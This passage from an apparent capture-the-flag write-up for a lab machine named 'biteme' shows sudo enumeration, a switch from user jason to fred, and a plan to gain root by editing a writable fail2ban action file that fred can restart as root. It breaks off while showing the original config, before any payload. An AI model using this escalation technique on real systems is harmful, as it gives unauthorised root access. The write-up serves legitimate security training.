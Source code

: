 User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
	```

- ## su  to fred
```bash
jason@biteme:~$ sudo -u fred bash
fred@biteme:~$ id
uid=1001(fred) gid=1001(fred) groups=1001(fred)
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
fred@biteme:~$ 
```

- ## looks like fred can run systemctl restart fail2ban as root
	- #### googled fail2ban privesc found this article 
	- https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
	- ***the attack scenario will be to change the configuration file of iptables-multiport.conf file in /etc/fail2ban/action.d/***

- ## checked if i could modify /etc/fail2ban/action.d/iptables-multiport.conf
```bash
fred@biteme:~$ ls -la /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 fred root 1420 Nov 13 13:38 /etc/fail2ban/action.d/iptables-multiport.conf
fred@biteme:~$ 

```

- ## vim /etc/fail2ban/action.d/iptables-multiport.conf
	```bash
	# Fail2Ban configuration file
	#
	# Author: Cyril Jaquier
	# Modified by Yaroslav Halchenko for multiport banning
	#
	
	[INCLUDES]
	
	before = iptables-common.conf
	
	[Definition]
	
	# Option:  actionstart
	# Notes.:  command executed once at the start of Fail2Ban.
	# Values:  CMD
	#
	actionstart = <iptables> -N f2b-<name>
	              <iptables> -A f2b-<name> -j <returntype>
	              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
	